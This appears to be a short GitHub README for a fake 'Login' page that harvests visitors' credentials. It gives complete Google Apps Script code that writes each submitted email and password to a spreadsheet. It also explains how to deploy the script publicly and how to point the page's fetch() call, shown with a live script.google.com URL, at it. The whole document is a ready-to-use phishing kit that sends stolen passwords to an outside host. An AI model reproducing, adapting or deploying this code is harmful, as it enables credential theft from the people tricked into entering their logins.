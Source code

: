 # Login
collecting data of the user to an google sheet (you can change it to anything else)


at line 26, edit the link

1. create a google sheet
2. in extensions > appscript
3. replace all with:
function doPost(e) {
    var sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();
      var email = e.parameter.email;
        var password = e.parameter.password;
          var time = new Date();

            sheet.appendRow([email, password, time]);
              return ContentService.createTextOutput("OK");
              }
4. deploy [select anyone !important!]
5. copy link
6. replace it on line 26
    fetch("https://script.google.com/macros/s/AKfycby69FXNkbhLcd5sKXqb2MhQIDDH6GBLIhhCNbdYREEFDBRbHg7lQeMLDHNz1d20LR-b/exec", {

replace this part only
"https://script.google.com/macros/s/AKfycby69FXNkbhLcd5sKXqb2MhQIDDH6GBLIhhCNbdYREEFDBRbHg7lQeMLDHNz1d20LR-b/exec"
